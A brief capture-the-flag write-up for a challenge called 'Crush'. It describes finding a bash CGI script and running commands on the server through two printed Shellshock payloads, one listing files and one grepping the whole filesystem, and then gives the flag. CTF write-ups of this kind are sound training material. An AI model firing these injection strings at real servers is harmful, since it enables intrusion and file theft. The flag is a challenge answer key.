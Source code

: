 # Crush

* The website was static! Tried getting information from robots.txt, sitemap but 404!
* Then after reading source, I found this url http://jh2i.com:50020/cgi-bin/crush.sh  
     `Dudes, woah! This is bash, duuuudddddeeeee.`
* Then I have tried the SHELLSHOCK! and it worked!
    > ` () { :; }; echo; echo; /bin/bash -c 'ls -la'`

* Now we have the shell, we still need to find the flag. I have looked at Apache directories, Apache config files, CGI directory, but there was nothing. So I had to do this!
    > `() { :; }; echo; echo; /bin/bash -c 'grep -ir LS{ /'`

* And the flag was in the `home` directory!

    > ### LLS{woah_dude_radical_shellshock}